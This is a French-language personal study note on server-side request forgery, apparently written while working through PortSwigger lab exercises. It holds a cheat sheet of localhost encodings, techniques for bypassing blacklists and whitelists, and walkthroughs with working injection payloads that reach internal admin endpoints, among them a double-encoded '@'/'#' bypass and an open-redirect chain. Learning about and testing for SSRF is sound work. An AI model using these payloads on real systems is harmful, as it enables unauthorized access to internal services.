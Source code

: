 **Une SSRF consiste à faire demander au serveur cible une donnée, une page ou autre qui se situe côté serveur. Cela permet de voir des informations avec les droits du serveur plutôt qu'avec les droits d'un utilisateur quelconque.**

---

**Cheat sheet :**

- [https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass "https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass")
- **localhost :**
    - [http://localhost](http://localhost "http://localhost")
    - 🔹[http://127.1](http://127.1 "http://127.1")
    - 🔹[http://127.0.0.0](http://127.0.0.0 "http://127.0.0.0")
    - 🔹[http://127.0.0.1](http://127.0.0.1 "http://127.0.0.1")
    - 🔹[http://2130706433](http://2130706433 "http://2130706433")
    - 🔹[http://0177.1](http://0177.1 "http://0177.1")
    - 🔹[http://0x7f.1](http://0x7f.1 "http://0x7f.1")
    - 🔹[http://127.000.000.1](http://127.000.000.1 "http://127.000.000.1")
    - 🔹[http://localtest.me](http://localtest.me "http://localtest.me")
    - 🔹http://[::1]
    - 🔹http://[::]

---

**Théorie/Technique :**  
**Technique de base :**

- L'application demande une ressource interne avec une requête http. Pour exploiter cela, on peut modifier le lien de la requête pour y mettre un lien interne intéressant. Requête de base : blablabla... Stockapi=[https://stockblablalienonsenfout](https://stockblablalienonsenfout "https://stockblablalienonsenfout") Injection : Stockapi=[https://localhost/admin](https://localhost/admin "https://localhost/admin")

**Blacklist :**

- On urlencode ou double urlencode (par exemple, tu prends 'a', tu regardes sa représentation en hex dans la table ascii, puis tu urlencode le résultat ce qui donnera %2561)
- Utiliser http ou https si on redirige vers un endroit qu'on contrôle
- On met le 127.0.0.1 en binaire
- Regarde la cheat sheet localhost.

**Whitelist :**

- **Utiliser un faux paramètre :**
    - Injection : [https://expected-host:fakepassword@evil-host](https://expected-host:fakepassword@evil-host "https://expected-host:fakepassword@evil-host"). Le fakepassword ne sera pas pris en compte, mais le evil host si.
- **Utiliser le # de section :**
    - Injection : [https://evil-host#expected-host](https://evil-host#expected-host "https://evil-host#expected-host"). C'est simple, le site voit le lien attendu dans une section donc il y va. Même si la section n'existe pas dans notre evil host, on y va quand même.
- **Utiliser la hiérarchie DNS :**
    - Injection : [https://expected-host.evil-host](https://expected-host.evil-host "https://expected-host.evil-host")
- **Urlencode ou double urlencode.**

**  
**  
**Blind SSRF :**  
[https://portswigger.net/web-security/ssrf/blind](https://portswigger.net/web-security/ssrf/blind "https://portswigger.net/web-security/ssrf/blind")

---

**Exploitation :**  
**Récupération de données internes :**

- **Utilisation de double urlencode, paramètre (@) dans un contexte de whitelist :**
    
    1. Injection : stockApi=[http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos](http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos "http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos")
        
    2. Explication step by step (sbs) :
        
    3. On test d'abord de mettre stockApi=[http://localhost](http://localhost "http://localhost") pour voir si on nous oblige un domaine (oui et c'est stock.weliketoshop.net dans ce cas).
        
    4. On peut alors tester plusieurs trucs. Dans mon cas, ce qui a marché c'est l'utilisation de paramètre avec '@'. J'ai donc j'ai stockApi=[http://username@stock](http://username@stock "http://username@stock")... ce qui nous rend une erreur 500.
        
    5. On ajoute un # pour avoir stockApi=[http://username#@stock.weliketoshop.net](http://username#@stock.weliketoshop.net "http://username#@stock.weliketoshop.net") et on a une erreur qui nous dit que l'host doit etre stock.weblabla. C'est donc intéressant car ça veut dire que le # est pris en compte et donc le server va chercher à username dans la section #.
        
    6. On tente alors d'urlencode le # (dans burp repeater) donc %23. Toujours la même erreur. Maintenant, on double urlencode donc on select %23 puis CTRL + U. Cette fois ci, on a une erreur 500 donc ca veut dire que le stock.weli... est pris en compte dans la whitelist pour bypass les filtres mais quand on veut accéder à la ressource, le # se révèle et donc le stock.we... est pris en compte comme un fragment ce qui le rend invisible puisqu'il n'existe pas.
        
    7. Maintenant, on a plus qu'à spécifier où on veut aller ce qui nous ramène à l'injection finale. Le fait que localhost et /admin... est séparé ça peut paraitre bizarre mais c'est normale c'est juste que c'est une url donc on doit respecter ça :
        

![url.jpg](file:///home/wpkaliuser/.config/joplin-desktop/resources/24737c9804061243d05f747f5ddc73b6.jpg)

- **Switch de path grâce à une autre requête :**
    
    1. Injection (pas le plus intéressant) : stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin
        
    2. Explication sbs :
        
    3. On a une fonctionnalité qui, dans sa requête http, contient un paramètre stockApi qui lui contient simplement un path urlencodé. C'est donc une récupération de données. On teste des ssrf dedans mais ça marche pas. Dans l'application, y'a une autre fonctionnalité qui elle contient dans la requete http GET /product/nextProduct?currentProductId=1&path=/prodonsenfout.  C'est donc une redirection où on récupère la données qui est dans le path car il est déclaré un peu comme valeur de productid=1 en fait. Donc en cherchant le productid=1, on va où on veut.
        
    4. On teste de mettre www.google.com à la place du path et on est redirigé. Par contre, quand on met un path interne qu'on veut ([http://192.168.0.12:8080/admin/delete?username=carlos](http://192.168.0.12:8080/admin/delete?username=carlos "http://192.168.0.12:8080/admin/delete?username=carlos") dans mon cas), ca marche pas.
        
    5. Maintenant qu'on connait un url valide pour récupérer une données internes, on est le roi du pétrole. On peut juste mettre la requete /product/nextProduct?currentProductId=1&path=/prodonsenfout avec le path qu'on veut, l'urlencoder et ca fonctionnera.
        
    6. Pourquoi ça fonctionne ? Parce qu'on a un url valide. A la base, on sait pas comment récupérer une donnée sur le server juste avec le paramètre stockApi car c'est juste un chemin pourri. Mais grâce à une autre fonctionnalité, on a pu savoir comment chopper une donnée interne. Faut retenir que même si y'a un truc du genre qui marche pas dans une certaine fonctionnalité, bah on peut utiliser un élément de la requête pour le mettre dans une autre requête. C'est plus de la créativité que de la technique là.